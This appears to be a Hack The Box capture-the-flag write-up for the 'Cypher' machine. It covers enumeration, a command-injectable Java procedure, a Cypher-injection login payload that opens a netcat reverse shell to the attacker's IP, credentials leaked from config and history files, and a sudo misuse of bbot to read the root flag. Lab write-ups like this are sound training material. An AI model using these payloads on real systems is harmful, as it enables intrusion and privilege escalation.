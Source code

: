 # Cypher - HTB Write-up
<img src="https://labs.hackthebox.com/storage/avatars/765cd4be6f3a366ca83c7ea60bbcaaa8.png" width="200" height="200">

## Initial portscan
```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
|_  256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cypher.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Port 80 - Enumeration

### Directory enumeration
`❯ gobuster dir --url $url/api -t 100 --wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`

`/auth - Method not allowed`

In the directory `/testing` we find a `.jar` file, decompile it:
```java
public class CustomFunctions {
  @Procedure(name = "custom.getUrlStatusCode", mode = Mode.READ)
  @Description("Returns the HTTP status code for the given URL as a string")
  public Stream<StringOutput> getUrlStatusCode(@Name("url") String url) throws Exception {
    if (!url.toLowerCase().startsWith("http://") && !url.toLowerCase().startsWith("https://"))
      url = "https://" + url; 
    String[] command = { "/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url };
    System.out.println("Command: " + Arrays.toString((Object[])command));
    Process process = Runtime.getRuntime().exec(command);
    BufferedReader inputReader = new BufferedReader(new InputStreamReader(process.getInputStream()));
    BufferedReader errorReader = new BufferedReader(new InputStreamReader(process.getErrorStream()));
    StringBuilder errorOutput = new StringBuilder();
    String line;
    while ((line = errorReader.readLine()) != null)
      errorOutput.append(line).append("\n"); 
    String statusCode = inputReader.readLine();
    System.out.println("Status code: " + statusCode);
    boolean exited = process.waitFor(10L, TimeUnit.SECONDS);
    if (!exited) {
      process.destroyForcibly();
      statusCode = "0";
      System.err.println("Process timed out after 10 seconds");
    } else {
      int exitCode = process.exitValue();
      if (exitCode != 0) {
        statusCode = "0";
        System.err.println("Process exited with code " + exitCode);
      } 
    } 
    if (errorOutput.length() > 0)
      System.err.println("Error output:\n" + errorOutput.toString()); 
    return Stream.of(new StringOutput(statusCode));
  }
  
  public static class StringOutput {
    public String statusCode;
    
    public StringOutput(String statusCode) {
      this.statusCode = statusCode;
    }
  }
}
```

It seems that the login page might be using this... so we can try to hijack it.

This is the command that it runs to get the HTTP response.
```shell
/bin/sh -c curl -s -o /dev/null --connect-timeout 1 -w %{http_code} <URL>
```

Lets try to call the procedure `custom.getUrlStatusCode` using that we previously found in the code.

Payload for RCE / RevShell
```shell
{"username":"a' return h.value as a UNION CALL custom.getUrlStatusCode(\"http://10.10.x.x:80;busybox nc 10.10.14.115 1337 -e sh;#\") YIELD statusCode AS a RETURN a;//","password":"hello"}
```

This will result in a process like this
```shell
neo4j       2357    1822  0 13:05 ?        00:00:00 /bin/sh -c curl -s -o /dev/null --connect-timeout 1 -w %{http_code} http://10.10.x.x:80;busybox nc 10.10.14.115 1337 -e sh;#
```

## Interesting finds as neo4j user
```shell
neo4j@cypher:/home/graphasm$ cat user.txt 
cat: user.txt: Permission denied
neo4j@cypher:/home/graphasm$ cat bbot_preset.yml 
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK

neo4j@cypher:~$ cat .bash_history 
neo4j-admin dbms set-initial-password cU4btyib.20xtCMCXkBmerhK

neo4j@cypher:~/data$ cat dbms/auth.ini 
neo4j:SHA-256,6a4277a4653a8536cff2d6f44fc698621e237d33a0fa36a57c55fb3bfead7b48,3d19d683dc15384a6cae9dc840740e93116cae7b0786b9dfee4dbbacbc13a65c,1024:
```

## Interesting finds as graphasm
```shell
graphasm@cypher:~$ sudo -l
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```


## Privilege Escalation
```shell
graphasm@cypher:~$ sudo /usr/local/bin/bbot --help
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot

usage: bbot [-h] [-t TARGET [TARGET ...]] [-w WHITELIST [WHITELIST ...]] [-b BLACKLIST [BLACKLIST ...]] [--strict-scope]
            [-p [PRESET ...]] [-c [CONFIG ...]] [-lp] [-m MODULE [MODULE ...]] [-l] [-lmo] [-em MODULE [MODULE ...]]
            [-f FLAG [FLAG ...]] [-lf] [-rf FLAG [FLAG ...]] [-ef FLAG [FLAG ...]] [--allow-deadly] [-n SCAN_NAME] [-v]
            [-d] [-s] [--force] [-y] [--dry-run] [--current-preset] [--current-preset-full] [-o DIR]
            [-om MODULE [MODULE ...]] [--json] [--brief] [--event-types EVENT_TYPES [EVENT_TYPES ...]]
            [--no-deps | --force-deps | --retry-deps | --ignore-failed-deps | --install-all-deps] [--version]
            [-H CUSTOM_HEADERS [CUSTOM_HEADERS ...]] [--custom-yara-rules CUSTOM_YARA_RULES]

Bighuge BLS OSINT Tool

options:
  -h, --help            show this help message and exit

Target:
  -t TARGET [TARGET ...], --targets TARGET [TARGET ...]
                        Targets to seed the scan
  -w WHITELIST [WHITELIST ...], --whitelist WHITELIST [WHITELIST ...]
                        What's considered in-scope (by default it's the same as --targets)
  -b BLACKLIST [BLACKLIST ...], --blacklist BLACKLIST [BLACKLIST ...]
                        Don't touch these things
  --strict-scope        Don't consider subdomains of target/whitelist to be in-scope

Presets:
  -p [PRESET ...], --preset [PRESET ...]
                        Enable BBOT preset(s)
  -c [CONFIG ...], --config [CONFIG ...]
                        Custom config options in key=value format: e.g. 'modules.shodan.api_key=1234'
  -lp, --list-presets   List available presets.
```

As you can see we can use a config file with `-c`. Also the option `-d` enables debugging. 

Maybe we can use this to read `/root/flag.txt`? Let's try it:

```shell
sudo /usr/local/bin/bbot -c /root/root.txt -d --dry-run
```

`--dry-run` is used here so we don't make any modification and just show a emulation of the process.

```shell
[DBUG] internal.excavate: Including Submodule URLExtractor
[DBUG] internal.excavate: Successfully loaded custom yara rules file [/root/root.txt]
[DBUG] internal.excavate: Final combined yara rule contents: c551b54954fc40****
```
